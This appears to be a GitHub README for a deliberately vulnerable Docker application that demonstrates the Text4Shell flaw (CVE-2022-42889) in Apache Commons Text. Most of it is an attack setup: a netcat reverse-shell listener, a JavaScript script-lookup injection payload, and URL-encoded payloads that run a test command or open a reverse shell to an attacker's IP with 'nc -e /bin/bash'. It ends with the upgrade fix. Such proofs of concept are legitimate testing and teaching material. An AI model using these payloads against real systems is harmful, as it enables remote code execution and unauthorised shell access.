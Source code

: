 # CVE-2022-42889 PoC Test Application
This is a vulnerable application developed as a Proof of Concept for the vulnerability [CVE-2022-42889](https://nvd.nist.gov/vuln/detail/CVE-2022-42889). 

# Vulnerable app set-up
You can use Docker to be able to run this PoC:

1. Docker build

```
   docker build --tag=text4shell-poc .
```

2. Docker run

```
   docker run -p 80:8080 text4shell-poc
```

3. Test the vulnerable app

```
   http://localhost/
```

# Attack Set-up

1. Reverse TCP listener
```
   sudo apt install rlwrap
```
```
   sudo rlwrap nc -nlvp 443
```
2. Payload
```
   ${script:javascript:java.lang.Runtime.getRuntime().exec'<Command to Execute>’)}
```
3. Encoded Touch command for testing set-up
```
  %24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27touch%20%2Ftmp%2Ffoo%27%29%7D
```
4. Encoded payload for RCE
```
  %24%7Bscript%3Ajavascript%3Ajava.lang.Runtime.getRuntime%28%29.exec%28%27nc%20<Attacker's IP>%20<Attacker's port>%20-e%20%2Fbin%2Fbash%27%29%7D
```

Recommended URL encoder for successful exploit demonstration: [https://www.urlencoder.org/](https://www.urlencoder.org/).

Reverse Shell generator [Generate Reverse Shell](https/www.revshells.com/)

Alternatively you can validate the effectiveness of scanning tools such as [text4shell-scan](https://github.com/securekomodo/text4shell-scan)



# The Fix
The fix for this is to update your instances of `commons-text` to versions `1.10.0` or later.


# Author
*Bryan Smith*
* Twitter: [https://twitter.com/securekomodo](https://twitter.com/securekomodo)

